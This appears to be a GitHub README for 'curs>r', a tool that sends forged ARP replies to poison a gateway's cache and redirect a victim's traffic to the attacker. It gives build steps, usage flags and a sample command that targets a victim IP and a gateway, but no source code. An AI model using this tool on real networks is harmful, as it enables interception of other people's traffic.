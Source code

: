 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage:  curser [ -<flag> [<val>] | --<name> <val>] ]...

   -i, --interface-name       traffic output interface
   -o, --op-code              type of packet[req/rep]
   	   --victim-ip            victim ip address
       --dst-ip               gateway ip
       --dst-mac              gateway mac address
   -h, --help                 display usage information and exit
   -v, --version              display version information and exit
  
➜ sudo ./curser -i en0 -o rep --victim-ip 192.168.0.22 --dst-ip 192.168.1.1 --dst-mac 00:01:02:03:04:05
```
